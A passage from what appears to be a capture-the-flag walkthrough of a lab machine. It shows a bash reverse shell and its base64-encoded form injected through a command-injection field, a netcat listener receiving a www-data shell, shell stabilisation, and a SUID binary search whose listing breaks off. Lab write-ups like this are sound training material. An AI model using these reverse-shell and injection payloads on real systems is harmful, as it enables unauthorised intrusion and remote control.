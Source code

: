 reverse shell sh -i >& /dev/tcp/192.168.49.95/1337 0>&1

encoded payload

image

reverse shell payload

127.0.0.1 | echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40OS45NS8xMzM3IDA+JjE= | base64 -d | bash
ncat listener ready

image

inject our payload

image

check oue ncat listener we got a shell

image

Let's stabilize the shell

┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ nc -lnvp 1337                                      
listening on [any] 1337 ...
connect to [192.168.49.95] from (UNKNOWN) [192.168.95.15] 37608
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@haclabs:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 1337
                                                                                                                                                                      
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ stty raw -echo;fg                
[1]  + continued  nc -lnvp 1337
                               export TERM=xterm
www-data@haclabs:/var/www/html$ 
www-data@haclabs:/var/www/html$ 

image

We have a stable shell, let's escalate privs to root. First let's check for suid using command find / -perm -u=s -type f 2>/dev/null

www-data@haclabs:/var/www/html$ find / -perm -u=s -type f 2>/dev/null                                                                                                 
/usr/lib/snapd/snap-confine                                                                                                                                 
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper 
/usr/lib/policykit-1/polkit-agent-helper-1 
/usr/sbin/pppd                  
/usr/bin/pkexec 
/usr/bin/find 
/usr/bin/gpasswd 
/usr/bin/chfn
/usr/bin/chsh 
/usr/bin/arping 
/usr/bin/passwd
/usr/bin/traceroute6.iputils 
/usr/bin/sudo
/usr/bin/newgrp
/snap/core/8689/bin/mount 
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6 
/snap/core/8689/bin/su  
/snap/core/8689/bin/umount  
/snap/core/8689/usr/bin/chfn 
/snap/core/8689/usr/bin/chsh   
/snap/core/8689/usr/bin/gpasswd  
/snap/core/8689/usr/bin/newgrp  